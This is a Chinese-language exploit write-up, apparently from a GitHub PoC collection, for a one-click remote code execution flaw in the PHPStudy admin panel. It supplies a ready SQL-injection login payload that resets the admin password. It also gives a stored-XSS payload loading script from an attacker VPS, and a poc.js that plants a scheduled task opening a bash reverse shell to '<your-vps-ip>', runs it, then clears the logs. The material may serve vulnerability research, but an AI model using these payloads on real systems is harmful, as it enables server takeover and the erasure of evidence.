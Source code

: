 # PHPStudy 后台管理页面 one click RCE

# PHPStudy 后台管理页面 one click RCE

## 漏洞描述

phpStudy 集安全、高效、功能与一体，已获得全球用户认可安装，运维也高效。支持一键 LAMP、LNMP、集群、监控、网站、数据库、FTP、软件中心、伪静态、云备份、SSL、多版本共存、Nginx 反向代理、服务器防火墙、Web 防火墙、监控大屏等服务器管理功能。phpStudy 面板存在存储型 XSS 漏洞，攻击者可以通过 js 调用面板中的计划任务执行系统命令。

## 影响版本

```
小皮 windows 面板 V0.102 以及以下版本
小皮 linux 面板 X1.29 以及以下版本
```

## 漏洞复现

### 方式 1 SQL 注入

phpstudy 访问面板登录页面需要添加如下 Headers：

```
x-requested-with: XMLHttpRequest
```

![image-20230519091358703](images/image-20230519091358703.png)

在用户登录处构造 Payload，其中 Password 的值是经过五次 md5 加密后的结果，脚本如下：

```python
import hashlib
str = "123456"
for i in range(0,5):
    str = hashlib.md5(str.encode()).hexdigest()
print(str)
```

填写 Payload，验证码处需要正确输入：

```
admin';UPDATE ADMINS set PASSWORD = 'c26be8aaf53b15054896983b43eb6a65' where username = 'admin';--
```

虽然提示错误信息，但此时已经成功将用户名/密码修改为： `admin/123456`

![image-20230519092040856](images/image-20230519092040856.png)

在后台计划任务处创建一个反弹 shell 脚本，点击执行：

![image-20230519092608985](images/image-20230519092608985.png)

服务器端监听，成功接收反弹 Shell：

![image-20230519092655024](images/image-20230519092655024.png)

### 方式 2 XSS

在 VPS 上放置 [poc.js](#漏洞POC)，监听 8888 端口，并通过以下命令启动 HTTP 服务：

```
python3 -m http.server 9999
```

在访问面板登录页面用户名处插入 XSS 语句：

```
<script src="http://<your-vps-ip>:9999/poc.js"></script>
```

![image-20230519100003117](images/image-20230519100003117.png)

通过方式 1，已经获得了用户名/密码为 admin/123456，进入后台验证一下计划任务是否成功写入：

![image-20230519100442704](images/image-20230519100442704.png)

等待 1 分钟，成功接收反弹 Shell：

![image-20230519094345974](images/image-20230519094345974.png)

## 漏洞POC

poc.js：

```js
function exp() {
  $.ajax({
      url: '/service/app/tasks.php?type=task_list',   //获取计划任务列表
      type: 'GET',
      headers:{
          "X-Requested-With": "XMLHttpRequest"
      },
      dataType: 'json',
      success: function (data) {
          var id = data.data[0].ID;    //任务名称
          $.ajax({
              url: '/service/app/tasks.php?type=exec_task',     //执行计划任务
              type: 'POST',
              headers:{
                  "X-Requested-With": "XMLHttpRequest",
                  "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
              },
              data: { tid: id },
              dataType: 'json',
              success: function (res) {
                  $.ajax({
                      url: '/service/app/log.php?type=clearlog',
                      type: 'POST',
                      data: { type: 'clearlog' },
                      dataType: 'json',
                      success: function (res2) {}
                  });
              }
          });
      }
  });
}

function save() {
  var data = new Object();
  data.task_id = '';
  data.title = 'test';
  data.exec_cycle = '5';
  data.week = '1';
  data.day = '3';
  data.hour = '1';
  data.minute = '1';
  data.shell = 'bash -i >& /dev/tcp/<your-vps-ip>/8888 0>&1';;
  $.ajax({
      url: '/service/app/tasks.php?type=save_shell',
      type: 'POST',
      headers:{
          "X-Requested-With": "XMLHttpRequest",
          "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
      },
      data: data,
      dataType: 'json',
      success: function (res) {
          exp();
      }
  });
}

save();
```


